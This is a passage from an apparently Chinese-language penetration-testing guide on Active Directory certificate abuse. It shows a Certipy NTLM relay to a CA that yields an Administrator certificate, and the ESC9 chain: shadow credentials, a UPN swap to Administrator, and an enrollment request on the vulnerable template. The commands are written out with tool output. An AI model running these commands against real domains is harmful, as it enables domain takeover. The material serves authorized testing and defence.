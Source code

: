 #### Abuse with [Certipy](https://github.com/ly4k/Certipy)

证书请求默认由 Certipy 基于模板 `Machine` 或 `User` 发出，具体取决于被中继的账户名称是否以 `$` 结尾。可以通过使用 `-template` 参数来指定替代模板。

然后可以使用像 [PetitPotam](https://github.com/ly4k/PetitPotam) 这样的技术来强制身份验证。在处理域控制器时，需要指定 `-template DomainController`。
```bash
certipy relay -ca ca.corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```
## No Security Extension - ESC9 <a href="#id-5485" id="id-5485"></a>

### 解释

新的值 **`CT_FLAG_NO_SECURITY_EXTENSION`** (`0x80000`) 对于 **`msPKI-Enrollment-Flag`**，称为 ESC9，防止在证书中嵌入 **新的 `szOID_NTDS_CA_SECURITY_EXT` 安全扩展**。当 `StrongCertificateBindingEnforcement` 设置为 `1`（默认设置）时，该标志变得相关，这与设置为 `2` 的情况形成对比。在可能被利用的情况下，例如 Kerberos 或 Schannel 的较弱证书映射（如 ESC10），其相关性更高，因为缺少 ESC9 不会改变要求。

该标志设置变得重要的条件包括：

- `StrongCertificateBindingEnforcement` 未调整为 `2`（默认为 `1`），或 `CertificateMappingMethods` 包含 `UPN` 标志。
- 证书在 `msPKI-Enrollment-Flag` 设置中标记为 `CT_FLAG_NO_SECURITY_EXTENSION` 标志。
- 证书指定了任何客户端身份验证 EKU。
- 对任何帐户具有 `GenericWrite` 权限以妥协另一个帐户。

### 滥用场景

假设 `John@corp.local` 对 `Jane@corp.local` 拥有 `GenericWrite` 权限，目标是妥协 `Administrator@corp.local`。`ESC9` 证书模板，`Jane@corp.local` 被允许注册，已在其 `msPKI-Enrollment-Flag` 设置中配置了 `CT_FLAG_NO_SECURITY_EXTENSION` 标志。

最初，使用 Shadow Credentials 获取 `Jane` 的哈希，得益于 `John` 的 `GenericWrite`：
```bash
certipy shadow auto -username John@corp.local -password Passw0rd! -account Jane
```
随后，`Jane`的`userPrincipalName`被修改为`Administrator`，故意省略了`@corp.local`域部分：
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```
此修改不违反约束，因为 `Administrator@corp.local` 仍然作为 `Administrator` 的 `userPrincipalName` 而保持独特。

接下来，标记为易受攻击的 `ESC9` 证书模板被请求为 `Jane`：
```bash
certipy req -username jane@corp.local -hashes <hash> -ca corp-DC-CA -template ESC9
```
注意到证书的 `userPrincipalName` 反映了 `Administrator`，没有任何“对象 SID”。
